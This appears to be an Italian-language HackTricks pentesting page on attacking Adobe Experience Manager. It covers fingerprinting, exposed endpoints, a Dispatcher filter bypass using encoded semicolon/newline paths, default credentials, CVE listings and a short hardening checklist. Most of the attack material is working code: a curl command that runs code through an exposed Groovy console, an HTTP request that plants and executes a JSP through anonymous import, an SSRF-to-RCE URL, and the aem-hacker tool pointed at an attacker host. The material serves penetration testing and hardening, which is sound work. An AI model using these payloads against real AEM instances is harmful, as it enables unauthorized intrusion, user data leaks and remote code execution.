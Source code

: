 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, parte di Adobe Experience Cloud) è un CMS aziendale che funziona su Apache Sling/Felix (OSGi) e un Java Content Repository (JCR).
> Dal punto di vista di un attaccante, le istanze AEM espongono molto spesso endpoint di sviluppo pericolosi, regole del Dispatcher deboli, credenziali predefinite e un lungo elenco di CVE che vengono corretti ogni trimestre.

La checklist qui sotto si concentra sulla **superficie di attacco (unauth) raggiungibile esternamente** che continua a presentarsi in impegni reali (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Altri indicatori rapidi:
* `/etc.clientlibs/` percorso statico presente (restituisce JS/CSS).
* `/libs/granite/core/content/login.html` pagina di accesso con il banner “Adobe Experience Manager”.
* `</script><!--/* CQ */-->` commento in fondo all'HTML.

---

## 2. Endpoint non autenticati ad alto valore

Percorso | Cosa ottieni | Note
---- | ------------- | -----
`/.json`, `/.1.json` | Nodi JCR tramite **DefaultGetServlet** | Spesso bloccato, ma *Dispatcher bypass* (vedi sotto) funziona.
`/bin/querybuilder.json?path=/` | API QueryBuilder | Leak dell'albero delle pagine, percorsi interni, nomi utente.
`/system/console/status-*`, `/system/console/bundles` | Console OSGi/Felix | 403 per impostazione predefinita; se esposto e credenziali trovate ⇒ RCE tramite upload di bundle.
`/crx/packmgr/index.jsp` | Package Manager | Consente pacchetti di contenuto autenticati → upload di payload JSP.
`/etc/groovyconsole/**` | AEM Groovy Console | Se esposto → esecuzione arbitraria di Groovy / Java.
`/libs/cq/AuditlogSearchServlet.json` | Log di audit | Divulgazione di informazioni.
`/libs/cq/ui/content/dumplibs.html` | Dump ClientLibs | Vettore XSS.

### Trucco di bypass del Dispatcher
La maggior parte dei siti di produzione si trova dietro il *Dispatcher* (reverse-proxy). Le sue regole di filtro possono essere bypassate aggiungendo un'estensione statica consentita **dopo un punto e virgola o una nuova riga codificata**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Una singola richiesta come sopra rivela frequentemente nodi di profilo utente con indirizzi email. P-T Partners ha pubblicato buone indicazioni su questa vulnerabilità. 【】

---

## 3. Configurazioni errate comuni (ancora attive nel 2025)

1. **Servlet POST anonimo** – `POST /.json` con `:operation=import` consente di piantare nuovi nodi JCR. Bloccare `*.json` POST nel Dispatcher risolve il problema. 【】
2. **Profili utente leggibili da tutti** – ACL predefinito concede `jcr:read` su `/home/users/**/profile/*` a chiunque.
3. **Credenziali predefinite** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** abilitato ⇒ XSS riflesso tramite `?debug=layout` (CVE-2016-7882, ancora trovato su installazioni legacy 6.4).
5. **Groovy Console esposta** – esecuzione di codice remoto inviando uno script Groovy:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Vulnerabilità recenti (cadenza dei pacchetti di servizio)

Trimestre | CVE | Affetti | Impatto
------- | --- | -------- | ------
Dic 2024 | **CVE-2024-43711** | 6.5.21 e precedenti | Validazione dell'input non corretta → **Esecuzione di codice arbitrario** (richiede autenticazione a bassa privilegio). 【】
Dic 2024 | CVE-2024-43724/26 | 6.5.21 e precedenti | DOM / XSS memorizzato in Move Page Wizard. 【】
Dic 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | XSS basato su DOM tramite URL creato. 【】
Dic 2022 | CVE-2022-30683 | ≤ 6.5.13 | Difetto di design crittografico → decrittazione segreta (richiede credenziali a bassa privilegio). 【】

Controlla sempre il bollettino *APSB* corrispondente al pacchetto di servizio del cliente e richiedi l'ultima **6.5.22** o *Cloud Service 2024.11*.

---

## 5. Frammenti di sfruttamento

### 5.1 RCE tramite bypass del dispatcher + caricamento JSP
Se la scrittura anonima è possibile:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Ora richiedi `/content/evil.jsp` – il JSP viene eseguito con l'utente del processo AEM.

### 5.2 SSRF a RCE (storico < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` di **aem-hacker** automatizza l'intera catena. 【】

---

## 6. Strumenti

* **aem-hacker** – script di enumerazione tipo coltellino svizzero, supporta bypass del dispatcher, rilevamento SSRF, controlli delle credenziali predefinite e altro.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – richiedi ricorsivamente `/_jcr_content.(json|html)` per scoprire componenti nascosti.
* **osgi-infect** – carica un bundle OSGi malevolo tramite `/system/console/bundles` se le credenziali sono disponibili.

---

## 7. Checklist di indurimento (per le raccomandazioni del tuo rapporto)

1. Mantieni l'istanza sulla **versione cumulativa di servizio più recente** (a partire da luglio 2025: 6.5.22).
2. Rimuovi ruota le credenziali predefinite; applica SSO/SAML.
3. Rendi più rigorosi i **filtri del Dispatcher** – nega `;`, nuove righe codificate e `*.json` o `*.querybuilder.json` per utenti anonimi.
4. Disabilita o proteggi le console (`/system/console`, `/crx/*`, `/etc/groovyconsole`) con liste di autorizzazione IP.
5. Applica il pacchetto *Anonymous Permission Hardening* fornito da Adobe.

## Riferimenti

* Adobe Security Bulletin APSB24-69 – “Aggiornamenti di sicurezza per Adobe Experience Manager (Dic 2024)”.
* 0ang3el – strumento aem-hacker (GitHub).
{{#include ../../banners/hacktricks-training.md}}
